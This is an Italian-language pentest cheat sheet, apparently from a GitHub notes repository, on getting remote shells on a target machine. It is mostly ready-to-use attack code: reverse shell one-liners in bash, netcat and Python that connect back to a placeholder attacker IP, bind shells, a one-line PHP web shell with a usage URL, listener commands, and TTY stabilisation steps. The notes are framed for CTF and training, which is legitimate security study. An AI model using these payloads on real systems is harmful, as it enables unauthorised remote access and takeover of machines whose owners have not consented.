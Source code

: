 # 🐚 Shells

Appunti e snippet per la fase di **ottenimento e gestione delle shell**.

## 📌 Obiettivi

* Ottenere accesso remoto alla macchina target
* Scegliere la tecnica giusta in base al contesto (firewall, upload, servizi)
* Stabilizzare la connessione per operazioni interattive
* Usare collezioni affidabili di shell già pronte

---

## 🔄 Reverse Shells

**Quando usarle:**

* ✅ Target **può uscire verso internet** o verso la macchina attaccante.
* ✅ Situazioni tipiche: RCE, command injection, upload con esecuzione, deserializzazione.
* ❌ Non funzionano se il firewall blocca le connessioni **in uscita**.

**Perché:**
La vittima apre una connessione verso di noi → spesso aggira i firewall inbound.

### 🔹 Comandi diretti (vittima)

```bash
# Bash reverse shell
bash -i >& /dev/tcp/<attacker-ip>/<port> 0>&1

# Netcat tradizionale
nc -e /bin/bash <attacker-ip> <port>

# Netcat senza -e (fallback più usato in CTF)
rm /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/sh -i 2>&1 | nc <attacker-ip> <port> >/tmp/f

# Python reverse shell
python3 -c 'import socket,os,pty;s=socket.socket();s.connect(("<attacker-ip>",<port>));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("/bin/bash")'
```

### 🔹 Listener (attaccante)

```bash
nc -lvnp <port>
rlwrap nc -lvnp <port>   # shell più comoda
```

📌 **Risorsa utile:**

* [PentestMonkey Reverse Shell Cheat Sheet](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet)

---

## 📡 Bind Shells

**Quando usarle:**

* ✅ Target **non può uscire**, ma permette connessioni in ingresso.
* ✅ Scenario tipico: macchine interne senza firewall restrittivo.
* ❌ Non funzionano dietro NAT o firewall che blocca porte inbound.

### 🔹 Comandi diretti (vittima)

```bash
# Netcat bind shell
nc -lvnp 4444 -e /bin/bash

# Python bind shell
python3 -c 'import socket,os,pty;s=socket.socket();s.bind(("0.0.0.0",4444));s.listen(1);c,a=s.accept();[os.dup2(c.fileno(),fd) for fd in (0,1,2)];pty.spawn("/bin/bash")'
```

### 🔹 Connessione (attaccante)

```bash
nc <target-ip> 4444
```

---

## 🌐 Web Shells

**Quando usarle:**

* ✅ Target consente **upload di file** (CMS vulnerabili, WebDAV, form mal filtrati).
* ✅ Utile come entrypoint quando non si riesce ad aprire reverse/bind shell diretta.
* ❌ Limitate: spesso accettano solo comandi singoli via HTTP.

### 🔹 PHP web shell minimale

```php
<?php system($_GET['cmd']); ?>
```

Uso:

```
http://<target-ip>/shell.php?cmd=id
```

### 🔹 PHP reverse shell (PentestMonkey)

Caricare `php-reverse-shell.php` (modificare IP e porta), poi avviare listener:

```bash
nc -lvnp 4444
```

📌 **Risorse utili:**

* [PentestMonkey PHP Reverse Shell](https://github.com/pentestmonkey/php-reverse-shell)
* [SecLists – Web Shells Collection](https://github.com/danielmiessler/SecLists/tree/master/Web-Shells)

---

## ⚙️ Stabilizzazione TTY

**Quando usarla:**

* ✅ Dopo una reverse/bind shell grezza senza interattività.
* ✅ Fondamentale per usare `su`, `ssh`, editor (`nano`, `vim`) e programmi che richiedono TTY.

### 🔹 Comandi comuni (vittima)

```bash
# Spawn TTY in Python
python3 -c 'import pty; pty.spawn("/bin/bash")'

# Migliorare terminale
export TERM=xterm
CTRL+Z          # sospendi shell
stty raw -echo; fg
reset
```

### 🔹 Attaccante

```bash
rlwrap nc -lvnp <port>
```

📌 **Risorse utili:**

* [GTFOBins – pty spawn & escalation tricks](https://gtfobins.github.io/)

---
